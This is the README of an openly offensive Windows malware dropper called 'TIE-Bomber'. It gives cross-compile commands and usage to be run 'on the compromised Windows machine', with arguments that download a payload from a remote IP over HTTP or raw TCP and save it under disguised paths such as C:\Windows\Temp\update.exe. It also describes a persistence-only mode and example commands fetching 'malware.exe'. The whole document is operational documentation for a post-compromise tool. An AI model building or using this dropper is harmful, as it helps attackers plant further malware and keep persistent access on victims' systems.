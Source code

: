 # TIE-Bomber Dropper 
### (Warning! Blinding GIF)

![img](TIE-Bombers.gif)

## Build
- Install ```mingw-64```
```
sudo apt update && sudo apt install mingw-w64
```
- Compile
```
x86_64-w64-mingw32-gcc -o TIE-Bomber.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lws2_32 -lurlmon -lwininet -lshlwapi TIE-Bomber.c
```
## Usage
> Place the TIE-Bomber.exe to the compromised Windows machine

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
TIE-Bomber.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
TIE-Bomber.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
TIE-Bomber.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
